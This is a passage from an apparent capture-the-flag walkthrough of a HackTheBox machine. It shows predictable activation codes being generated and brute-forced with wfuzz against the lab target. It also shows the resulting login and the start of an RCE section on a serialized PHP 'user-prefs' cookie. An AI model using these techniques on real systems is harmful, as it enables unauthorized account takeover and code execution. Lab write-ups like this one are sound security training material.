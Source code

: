 This will print activation codes from 30 seconds before and 30 seconds after the timestamp of when I registered (more than necessary).

#### Fuzz

I’ll save these to a file, and then run them through `wfuzz` to try them all:

```

oxdf@hacky$ php generate_codes.php > codes.txt
oxdf@hacky$ wfuzz -u https://broscience.htb/activate.php?code=FUZZ -w codes.txt --hs Invalid
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://broscience.htb/activate.php?code=FUZZ
Total requests: 61

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000031:   200        27 L     65 W       1251 Ch     "33bddQwMdlOCPl5Ex2sA5NRsRS8akH0l"

Total time: 1.322301
Processed Requests: 61
Filtered Requests: 60
Requests/sec.: 46.13167

```

I’m using `--hs Invalid` because the string “Invalid” is present when the code is wrong. I don’t really care what the code was, just that it worked.

#### Log In

Now when I log in, it works:

![image-20230330172403531](/img/image-20230330172403531.png)

### RCE

#### user-prefs

On logging in, it sets another cookie, `user-prefs`:

```

HTTP/1.1 302 Found
Date: Thu, 30 Mar 2023 21:28:32 GMT
Server: Apache/2.4.54 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: /index.php
Set-Cookie: user-prefs=Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30%3D
...[snip]...

```

